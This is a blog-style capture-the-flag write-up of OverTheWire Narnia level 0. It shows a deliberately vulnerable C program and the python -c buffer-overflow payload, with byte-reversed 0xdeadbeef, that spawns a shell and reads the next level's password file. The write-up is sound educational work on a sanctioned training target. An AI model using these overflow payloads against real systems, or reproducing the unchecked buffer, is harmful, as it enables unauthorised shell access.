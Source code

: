 ```yaml
---
layout:     post
title:      "Overthewire.org - Narnia 0 -> 1"
subtitle:   "Write-Up"
date:       2017-01-01 0:00:00
author:     "W3ndige"
permalink: /:title/
category: Overthewire
---
```



<p>As a part of my New Year's resolutions I decided to improve my knowledge of binary exploitation, learn more by completing challenges from <a href="http://overthewire.org/wargames/">OverTheWire</a>, especially Narnia, as they are aimed to people wanting to learn about basics. </p>

<h1>Challenge</h1>

<p>Firstly, let's take a look at the code of this program. </p>

{% highlight c %}
#include <stdio.h>
#include <stdlib.h>

int main(){
	long val=0x41414141;
	char buf[20];

	printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
	printf("Here is your chance: ");
	scanf("%24s",&buf);

	printf("buf: %s\n",buf);
	printf("val: 0x%08x\n",val);

	if(val==0xdeadbeef)
		system("/bin/sh");
	else {
		printf("WAY OFF!!!!\n");
		exit(1);
	}

	return 0;
}

{% endhighlight %}

<p>Okay, now we know that the binary accepts one string input from the user and puts the string into a buffer of 20 bytes, then if the value of variable <b>val</b> is equal to <b>0xdeadbeef</b>, we will get a shell. Let's try to send to 20 "A" characters, with 4 letters "B", in order to overflow the buffer, and overwrite the value of <b>0x41414141</b> with our "B" letters. </p>

{% highlight text %}
narnia0@melinda:/narnia$ python -c print'("A" * 20) + "BBBB"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAABBBB
val: 0x42424242
WAY OFF!!!!
narnia0@melinda:/narnia$
{% endhighlight %}

<p>Great, now we know that it works and we're one step closer to the solution. Now let's think how we can change value to <b>0xdeadbeef</b>. First thing to remember - the values need to be in hex format, not characters as I thought at first. In addition, I recalled that the bytes will be in reversed order, so we have to write them from the last to the first one. </p>

{% highlight text %}
narnia0@melinda:/narnia$ python -c print'("A" * 20) + "\xef\xbe\xad\xde"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef

{% endhighlight %}

<p>We got the shell but it closed immediately! Let's find a way to keep it running, in order to view the password to the next level. </p>

{% highlight text %}
narnia0@melinda:/narnia$ (python -c print'("A" * 20) + "\xef\xbe\xad\xde"'; cat /etc/narnia_pass/narnia1) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
cat: /etc/narnia_pass/narnia1: Permission denied
{% endhighlight %}

<p>Unfortunately, it closed too quickly and the command was executed after the shell had closed. I tried many other commands, and noticed something strange - <b>cat</b> seemed to do exactly what we want! </p>

{% highlight text %}
narnia0@melinda:/narnia$ (python -c print'("A" * 20) + "\xef\xbe\xad\xde"'; cat) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
whoami
narnia1
cat /etc/narnia_pass/narnia1
********
{% endhighlight %}

<p>But why is it working? From man page: </p>

<b>With no FILE, or when FILE is -, read standard input.</b>

<h1>Last words</h1>

<p>As I never tought before, this was a great challenge, and I think I got more interested in binary exploitation and reverse engineering. Can't wait to try out some other challenges, and I'll see you in the next one!</p>
